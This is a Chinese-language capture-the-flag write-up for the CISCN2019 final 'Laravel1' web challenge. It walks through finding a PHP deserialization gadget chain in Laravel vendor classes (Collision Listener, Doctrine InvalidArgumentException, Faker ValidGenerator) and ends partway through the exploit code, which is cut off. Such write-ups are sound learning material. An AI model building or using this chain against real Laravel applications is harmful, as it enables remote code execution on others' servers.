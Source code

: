 ![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201029135435.png)





## [CISCN2019 总决赛 Day1 Web4] Laravel1



起始点 `laravl\vendor\nunomaduro\collision\src\Adapters\Phpunit\Listener.php`



![dQwO2Q.png](https://s1.ax1x.com/2020/08/19/dQwO2Q.png)



`$this->writer->write($inspector);` 可以调用`__call`方法 ，唯一的问题就是 `public function render(\Throwable $t)`中的参数 也就是`$this->exceptionFound`的值

![dQwvKs.png](https://s1.ax1x.com/2020/08/19/dQwvKs.png)



手册中说明是一个 `implement` ，所以需要找继承

![dQwxrn.png](https://s1.ax1x.com/2020/08/19/dQwxrn.png)



全局搜 `extends Throwable `

找到如下 `laravl\vendor\doctrine\instantiator\src\Doctrine\Instantiator\Exception\ExceptionInterface.php `

![dQ0pV0.png](https://s1.ax1x.com/2020/08/19/dQ0pV0.png)



因为是`interface` 所以需要再找 `implements ExceptionInterface`

![dQwXvj.png](https://s1.ax1x.com/2020/08/19/dQwXvj.png)



最终找到 `vendor\doctrine\instantiator\src\Doctrine\Instantiator\Exception\InvalidArgumentException.php`

![dQwzbq.png](https://s1.ax1x.com/2020/08/19/dQwzbq.png)



最终exp

```php
<?php

namespace Doctrine\Instantiator\Exception{
	class InvalidArgumentException{

	}
}
namespace NunoMaduro\Collision\Adapters\Phpunit {

	class Listener{

    	protected $exceptionFound;
    	protected $writer;
    	public function __construct(){
    		$this->exceptionFound = new \Doctrine\Instantiator\Exception\InvalidArgumentException();
    	    $this->writer = new \Faker\ValidGenerator();

    	}
```